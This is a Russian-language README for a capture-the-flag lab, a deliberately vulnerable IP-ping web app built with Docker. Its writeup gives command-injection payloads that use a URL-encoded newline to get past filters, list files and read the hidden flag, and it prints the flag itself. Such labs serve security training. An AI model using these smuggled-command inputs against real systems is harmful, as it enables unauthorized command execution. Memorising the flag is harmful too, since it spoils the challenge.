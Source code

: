 # Описание
Такое уже есть, но всегда приятно написать самому

# Сборка:

```docker build -t ctf_harder_cmd_injection . ```

# Запуск:

```docker run -d -p 5000:5000 ctf_harder_cmd_injection```

# Writeup:

Сайтик который позволяет пинговать айпишники, заложенная СMD, установлены фильры, поэтому нужно будет их обойти

<img width="1006" alt="image" src="https://github.com/user-attachments/assets/46c948f6-24a7-4dca-ac93-0d062f768aeb" />

обход фильтрации:

```1.1.1.1%0Als -al```

<img width="997" alt="image" src="https://github.com/user-attachments/assets/3fdefa45-a997-41e8-a06a-35c659b8e7f7" />

Читаем флаг 
```
1.1.1.1%0A base64 ./hidden/.flag
```

# Flag:

flag{n0_hard3r_cmd_inj3cti0n}
